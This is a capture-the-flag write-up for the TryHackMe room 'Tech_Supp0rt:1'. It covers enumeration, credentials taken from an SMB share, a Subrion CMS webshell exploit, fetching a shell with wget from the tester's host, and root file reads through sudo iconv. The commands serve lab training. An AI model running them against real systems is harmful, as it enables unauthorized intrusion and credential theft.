 ```yaml
---
layout: default
title: Tech_Support:1
description: THM - Tech_Supp0rt:1
---
```


## Enumeration

Fired up nmap and gobuster.

```
Nmap scan report for <IP>
Host is up (0.067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
```
/wordpress       (Status: 301) [Size: 316]
/test            (Status: 301) [Size: 311]
/server-status   (Status: 403) [Size: 277]
```
### SMB Enumeration:
```
 Disk                            Permissions
----                             -----------
print$                            NO ACCESS
websvr                            READ ONLY
IPC$                              NO ACCESS
```
Before checking out the web pages, I'll access the “websvr” share and see if there's anything juicy inside.

```
smbclient -N //<IP>/websvr

smb: \> ls
  .                                   D        0  Sat May 29 10:17:38 2021
  ..                                  D        0  Sat May 29 10:03:47 2021
  enter.txt                           N      273  Sat May 29 10:17:38 2021

                8460484 blocks of size 1024. 5693200 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exit

cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:[REDACTED] [cooked with magical formula]
Wordpress creds
|->
```

Now this is interesting. We found Subrion credentials. I'll throw them into Cyberchef and see what pops up.

![CyberChef](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/1.png)

We now have the Subrion CMS admin credentials. Let's look around on the website.

first I tried accessing “/subrion”, but then, when it wasn't working, I went backwards, and noticed the entry in “enter.txt”, which states that “/subrion”
doesn't work, and to use the panel. So i tried the next best thing. “/subrion/panel”.
And what do you know! It worked!

![Subrion Panel](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/2.png)

Now, this CMS gracefully provided us with the version, so it won't hurt looking for a CVE, right ?
Bingo!
CVE-2018-19422-SubrionCMS-RCE

Let's try logging in with the credentials we gathered, because the exploit requires authentication.

(Meanwhile I also enumerated the wordpress site and found the user “support”. I'll save it, maybe it'll come in handy)

Aaaand we logged in:

![Subrion Dash](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/3.png)

## Exploitation

Let's try the RCE.

```
python3 SubrionRCE.py -u http://<IP>/subrion/panel/ -l admin -p [REDACTED]
[+] Trying to connect to: http://<IP>/subrion/panel/
[+] Success!
[+] Got CSRF token: [REDACTED]
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: mwfyhhiowaujnqk

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://<IP>/subrion/panel/uploads/mwfyhhiowaujnqk.phar

$ whoami
www-data
```
I then uploaded another shell, because this one is a bit fucky, and upgraded using a python TTY
```
$ wget http://10.18.116.220:8000/shell.php

$ ls
mwfyhhiowaujnqk.phar
shell.php
zrqcdnixvfcwxop.phar

$ php shell.php

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TechSupport:/$
```
We cd into the /opt directory, empty.

Cd into the /home directory, there's the scamsite directory with the “enter.txt” file we found earlier.

So i'll start looking for SUID binaries, since we don't have sudo permissions.
```
find / -perm -u=s -type f 2>/dev/null
```
No luck there, so we start snooping around. You can check default locations, or you can use linpeas.

I opted for linpeas.
```
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
```
And what do you know, it found a pasword for the user “support”. I'll try to ssh into the machine using the “scamsite” user that we found, and this password.

Aaand it worked.

Let's see what we can do from this user. First of all, I'm gonna ssh into the machine for a more stable shell.

## Privilege Escalation:
```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
scamsite may use iconv to read files. We could use it to read and crack the /etc/shadow file, or the id_rsa from the root folder. But that's not necessary for proof of completion, so we'll just read "/root/root.txt"
```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```
And we got the flag!

![Flag](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/4.png)

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/techsupp0rt1)

[back](./)
